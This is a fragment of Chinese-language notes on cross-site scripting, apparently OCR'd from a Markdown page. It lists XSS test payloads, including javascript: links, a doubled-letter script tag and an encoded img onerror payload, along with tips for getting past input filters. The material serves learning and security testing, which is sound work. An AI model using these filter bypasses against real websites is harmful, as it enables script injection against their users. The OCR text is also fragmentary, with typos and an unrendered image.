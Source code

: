 > `" > <a href='javascript:alert("xss")'>test</a>`
>
> `"> <a HREF='javascript:alert(1)'>test</a>`
>
> `" > <sscriptcript>alert(1)</sscriptcript>`
>
> `javascript:alert(1)// http://` //是注释`
>
> `<img%0Dsrc=1%0Donerror=alert(1)>`
>
> >  `空格= %0a < = %3c > = %3E`
>
> #### 常用xsspayload和bypass
>
> > ![image-20200606154017935](xss漏洞总结/image-20200606154017935.png)
> >
> > #### tips
> >
> > > 标签和标签属性之间可以死多个空格 单引号 回车 /
> > >
> > > utl可以shit双引号 单引号 也可以没引号  ***ie中可以是反引号***
> > >
> > > 结尾可以是`/`结尾
> > >
> > > 正则的时候可以加一些空格 换行 空白符之类的绕过换行
> >
> > #### 一些事件
> >
> > > `autofocus`
> > >
> > > 
> >
> > 
> >
> > 
> >
> > ==无引号 无分号==